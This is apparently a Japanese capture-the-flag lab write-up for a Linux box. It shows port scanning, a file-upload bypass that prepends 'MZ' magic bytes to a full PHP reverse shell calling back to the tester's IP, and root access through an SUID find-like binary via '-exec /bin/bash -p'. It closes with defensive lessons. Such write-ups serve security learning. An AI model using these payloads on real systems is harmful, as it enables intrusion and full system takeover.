

## 概要

| Field | Value |
|---|---|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | `22/tcp` SSH, `80/tcp` HTTP ファイルアップロードサービス |
| 主な侵入経路 | `MZ` マジックバイトを使用したファイルアップロードバイパスと PHP リバースシェル |
| 権限昇格経路 | SUID の `find` 類似バイナリ `/opt/fileS` の悪用 |

## 認証情報

認証情報なし。

## 偵察

### RustScan による高速ポート探索

最初のステップは、到達可能な攻撃対象を確立するために開いている全 TCP ポートを列挙することです。詳細なフィンガープリントを実行する前に、候補となるサービスを素早く特定するために RustScan を使用します。この段階では、Web エンドポイントとエントリポイントになり得る管理サービスを探します。

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
✅[4:20][CPU:17][MEM:70][TUN0:192.168.45.166][/home/n0z0]
🐉 > rustscan -a $ip -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Breaking and entering... into the world of open ports.

[~] The config file is expected to be at "/home/n0z0/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.178.33:22
Open 192.168.178.33:80

```

💡 なぜ有効か
全範囲の高速スキャンにより、現実的なエントリポイントに素早く焦点を絞れます。SSH と HTTP のみが公開されているため、ポート 80 の Web アプリケーションが最も可能性の高い初期侵害ベクターとなります。

### Nmap によるサービスフィンガープリント

開放ポートを特定した後、Nmap を使ってバージョンとサービスのメタデータを収集します。選択したフラグはスクリプトベースのチェックとバージョン検出を組み合わせており、可能性の高い攻撃パスを特定するのに役立ちます。HTTP サービスがカスタムであり、ファイルアップロードの悪用に対して潜在的に脆弱かどうかを具体的に検証します。

```bash
timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"
grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"
echo -e "\e[32mScan result saved to: $output_file\e[0m"
```

```bash
✅[4:20][CPU:18][MEM:69][TUN0:192.168.45.166][/home/n0z0]
🐉 > timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-23 04:20 JST
Nmap scan report for 192.168.178.33
Host is up (0.087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey:
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: MZEE-AV - Check your files
|_http-server-header: Apache/2.4.56 (Debian)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   90.98 ms 192.168.45.1
2   90.97 ms 192.168.45.254
3   91.00 ms 192.168.251.1
4   91.09 ms 192.168.178.33

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
Scan result saved to: /home/n0z0/work/scans/20260223-042024_192.168.178.33.xml

```

💡 なぜ有効か
サービスメタデータは攻撃戦略のコンテキストを提供し、ツールの選択を絞り込みます。ここでのターゲットはカスタムのアップロード指向 Web アプリであり、入力検証とファイル処理の脆弱性が主要な候補として強く示唆されます。

## 初期足がかり

### アップロードワークフローとマジックバイト検証の分析

Web インターフェースが PE ファイルのスキャン機能を示しているため、検証ロジックが主要なターゲットとなります。スクリーンショットにより、攻撃者が制御するファイルアップロードが可能であることが確認されており、コンテンツ検証が弱い場合に悪用可能です。


*キャプション: ターゲット Web アプリケーションが公開ファイルアップロードフォームを公開し、スキャン結果を報告します。*

脆弱なロジックは最初の 2 バイトの `4D5A`（`MZ`）のみをチェックしており、ファイル拡張子、MIME タイプ、またはファイル形式全体の検証を行っていませんでした。

```php
$magic = fread($F, 2);          // 先頭2バイトだけ読む
$magicbytes = bin2hex($magic);  // 16進数に変換
if (strpos($magicbytes, '4D5A') === false)  // MZ かチェック
    exit();  // MZじゃなければ拒否
```

💡 なぜ有効か
2 バイトのシグネチャチェックは安全なアップロード検証として不十分です。攻撃者は期待されるバイトをファイルの先頭に追加しながら、後ろに実行可能なサーバーサイドコードを埋め込むことで、単純なフィルターを回避できます。

### `MZ` プレフィックス付き PHP リバースシェルの作成

ペイロードはマジックバイトチェックを満たすために `\x4D\x5A` を先頭に追加し、その後に PHP リバースシェルコードを追記します。これはアップロード前にローカルで実行され、結果として検証をパスしながらリクエスト時に PHP として実行されるファイルが作成されます。

```bash
printf '\x4D\x5A' > rev.php
cat >> rev.php << 'EOF'
<?php
set_time_limit(0);
$ip = '192.168.45.166';
$port = 4444;
$sock = fsockopen($ip, $port);
$descriptorspec = array(0 => $sock, 1 => $sock, 2 => $sock);
$process = proc_open('/bin/sh', $descriptorspec, $pipes);
proc_close($process);
?>
EOF
```


*キャプション: 細工された `rev.php` が `MZ` バイパス後にサーバーで受け入れられました。*


*キャプション: アップロードされたファイルパスにアクセスすると、ペイロードの PHP 実行がトリガーされます。*

💡 なぜ有効か
PHP は `<?php` 開始タグの前の任意のバイトを無視するため、先頭に追加した `MZ` は実行を妨げません。防御側はファイルヘッダーのバイトのみを検証しており、サーバーサイドの実行リスクを検証していませんでした。

### リバースシェルの受信と `local.txt` の読み取り

アップロードしたペイロードからの発信コールバックを受け取るためにリスナーを起動します。接続後、より安定したシェルとコマンド処理のために擬似 TTY を生成します。期待される出力は `www-data` としてのシェルです。

```bash
nc -lvnp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
❌[11:22][CPU:3][MEM:67][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.33] 35914

python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mzeeav:/var/www/html/upload$ ^Z
zsh: suspended  nc -lvnp 4444

```

シェルアクセスが確認されたら、次の目標は `local.txt` を取得してユーザーレベルでの侵害の証拠とすることです。`find` を使って正確なファイルの場所を探索し、`cat` で読み取ります。

```bash
find / -iname local.txt 2>/dev/null
cat /home/avuser/local.txt
```

```bash
www-data@mzeeav:/var/www/html/upload$ find / -iname local.txt 2>/dev/null
/home/avuser/local.txt
www-data@mzeeav:/var/www/html/upload$ cat /home/avuser/local.txt
6eb7d0e197ab9ac2ef205bd68cef6864

```

💡 なぜ有効か
アップロードされたコードが Web コンテキストで実行されると、アウトバウンドのリバースシェルはインバウンドのファイアウォール開放なしにインタラクティブなコマンド実行を提供します。`local.txt` の読み取りにより、ターゲットホスト上での攻撃者制御の実行が確認されます。

## 権限昇格

### 高リスク SUID バイナリの特定

ローカル列挙により、`/opt/fileS` に通常とは異なる SUID バイナリがフラグとして検出されました。一般的でない特権バイナリは、標準ツールを安全でない方法でラップしていることが多いため、優先度が高いです。

```bash
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/opt/fileS

```

### `fileS` の動作と特権ビットの確認

次のステップは、悪用前に `fileS` が実際に何をするかを確認することです。ヘルプテキストが GNU `find` の構文と動作に一致し、ファイルパーミッションが SUID 実行コンテキストを確認しました。昇格した実効 UID のもとで悪用可能なコマンド実行機能を確認します。

```bash
./fileS --help
```

```bash
www-data@mzeeav:/opt$ ./fileS --help
Usage: ./fileS [-H] [-L] [-P] [-Olevel] [-D debugopts] [path...] [expression]

default path is the current directory; default expression is -print
expression may consist of: operators, options, tests, and actions:
operators (decreasing precedence; -and is implicit where no others are given):
      ( EXPR )   ! EXPR   -not EXPR   EXPR1 -a EXPR2   EXPR1 -and EXPR2
      EXPR1 -o EXPR2   EXPR1 -or EXPR2   EXPR1 , EXPR2
positional options (always true): -daystart -follow -regextype

normal options (always true, specified before other expressions):
      -depth --help -maxdepth LEVELS -mindepth LEVELS -mount -noleaf
      --version -xdev -ignore_readdir_race -noignore_readdir_race
tests (N can be +N or -N or N): -amin N -anewer FILE -atime N -cmin N
      -cnewer FILE -ctime N -empty -false -fstype TYPE -gid N -group NAME
      -ilname PATTERN -iname PATTERN -inum N -iwholename PATTERN -iregex PATTERN
      -links N -lname PATTERN -mmin N -mtime N -name PATTERN -newer FILE
      -nouser -nogroup -path PATTERN -perm [-/]MODE -regex PATTERN
      -readable -writable -executable
      -wholename PATTERN -size N[bcwkMG] -true -type [bcdpflsD] -uid N
      -used N -user NAME -xtype [bcdpfls]      -context CONTEXT

actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;

Valid arguments for -D:
exec, opt, rates, search, stat, time, tree, all, help
Use '-D help' for a description of the options, or see find(1)

Please see also the documentation at http://www.gnu.org/software/findutils/.
You can report (and track progress on fixing) bugs in the "./fileS"
program via the GNU findutils bug-reporting page at
https://savannah.gnu.org/bugs/?group=findutils or, if
you have no web access, by sending email to <bug-findutils@gnu.org>.
www-data@mzeeav:/opt$

```

```bash
ls -la
```

```bash
www-data@mzeeav:/opt$ ls -la
total 312
drwxr-xr-x  2 root root   4096 Nov 14  2023 .
drwxr-xr-x 18 root root   4096 Nov 13  2023 ..
---s--s--x  1 root root 311008 Nov 14  2023 fileS

```

### GTFOBins の `find` テクニックを使用して root に到達

`fileS` が `find` のように動作し SUID ビットを持つため、GTFOBins の `-exec` テクニックで特権シェルを起動できます。昇格した権限を保持するために `/bin/bash -p` を使用します。最終確認は `/root/proof.txt` の読み取りです。

```bash
./fileS . -exec /bin/bash -p \; -quit
cat /root/proof.txt
```

```bash
www-data@mzeeav:/opt$ ./fileS . -exec /bin/bash -p \; -quit
bash-5.1#

```

```bash
bash-5.1# cat /root/proof.txt
31c145840f70f2874b049253e763e9ce

```

💡 なぜ有効か
根本的なメカニズムは SUID 権限の継承です。`find` スタイルの `-exec` はバイナリの実効 UID（ここでは root）でコマンドを実行し、`bash -p` によってその権限が降格されるのを防ぎ、root シェルが得られます。

## まとめ・学んだこと

- ファイルアップロードの防御はファイル種別全体、拡張子の処理、実行パスの分離を検証する必要があります。
- マジックバイトチェックだけでは回避可能であり、主要なセキュリティコントロールとして扱うべきではありません。
- アップロードされたファイルは Web アクセス可能なディレクトリから直接実行できるようにすべきではありません。
- 一般的でない SUID バイナリはすぐに監査すべきです。標準ツールのラッパーは特にリスクが高いです。



## 参考文献

- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- HackTricks Linux Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
- GTFOBins (`find`): https://gtfobins.org/gtfobins/find/
- GNU findutils documentation: https://www.gnu.org/software/findutils/
